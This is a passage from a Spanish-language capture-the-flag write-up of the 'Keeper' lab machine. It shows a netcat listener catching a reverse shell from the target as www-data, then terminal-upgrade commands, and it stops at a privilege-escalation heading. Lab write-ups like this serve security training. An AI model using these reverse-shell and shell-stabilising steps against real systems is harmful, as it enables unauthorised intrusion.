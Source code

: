 Una vez este todo hecho `guardamos cambios`, nos dirigimos a `/home` y `creamos` un `ticket`

![](/assets/img/Keeper/image_16.png)

Si todo ha ido bien deberíamos haber `obtenido` una `shell`,  ahora vamos a hacer un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.100.101] 43578
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation
